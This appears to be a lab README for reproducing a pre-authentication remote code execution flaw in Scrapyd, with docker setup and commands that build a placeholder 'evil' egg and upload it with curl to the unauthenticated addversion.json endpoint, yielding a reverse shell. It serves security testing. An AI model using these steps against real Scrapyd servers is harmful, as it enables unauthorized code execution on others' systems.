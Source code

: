 # Scrapyd Pre-Auth Remote Code Execution

[中文版本(Chinese version)](README.zh-cn.md)

Scrapyd is an application for deploying and running Scrapy spiders. It enables users to deploy (upload) projects and control their spiders using a JSON API.

References: <https://www.leavesongs.com/PENETRATION/attack-scrapy.html>

## Start server

Execution the following command to start a scrapyd server:

```bash
docker compose up -d
```

After scrapyd is deployed, the server is listening on `http://your-ip:6800`.

## Reproduce

Build a evil egg archive:

```bash
pip install scrapy scrapyd-client
scrapy startproject evil
cd evil
# edit evil/__init__.py, add evil code
scrapyd-deploy --build-egg=evil.egg
```

Upload evil egg to the scrapyd server:

```bash
curl http://your-ip:6800/addversion.json -F project=evil -F version=r01 -F egg=@evil.egg
```

reverse shell is available:

![](1.png)
